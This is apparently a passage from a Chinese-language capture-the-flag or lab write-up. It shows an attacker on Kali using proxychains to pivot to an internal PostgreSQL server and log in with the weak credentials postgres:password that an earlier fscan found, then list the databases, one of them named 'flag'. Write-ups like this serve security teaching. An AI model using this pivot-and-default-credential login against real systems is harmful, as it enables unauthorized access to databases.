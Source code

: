 ![img](img/image_20240706-150633.png)

## Postgres 弱密码

根据之前 `fscan` 的结果，已经得知 Postgres 服务的凭据为 `postgres:password`

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 pgcli -h 172.56.102.2 -u postgres
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Password for postgres:
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:10005  ...  172.56.102.2:5432  ...  OK
Server: PostgreSQL 16.3
Version: 4.1.0
Home: http://pgcli.com
postgres> \l
+-----------+----------+----------+------------+------------+-----------------------+
| Name      | Owner    | Encoding | Collate    | Ctype      | Access privileges     |
|-----------+----------+----------+------------+------------+-----------------------|
| flag      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | <null>                |
| template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
| template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres           |
|           |          |          |            |            | postgres=CTc/postgres |
```